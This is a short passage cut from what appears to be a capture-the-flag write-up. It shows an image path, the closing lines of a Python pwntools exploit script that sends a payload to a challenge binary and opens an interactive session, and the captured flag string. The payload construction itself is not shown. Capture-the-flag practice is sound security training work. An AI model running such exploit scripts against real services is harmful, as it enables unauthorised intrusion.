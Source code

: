     print(payload)
    r.sendlineafter(b"Input 3:\n", payload)

    r.interactive()


if __name__ == "__main__":
    main()

{% endhighlight %}

flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
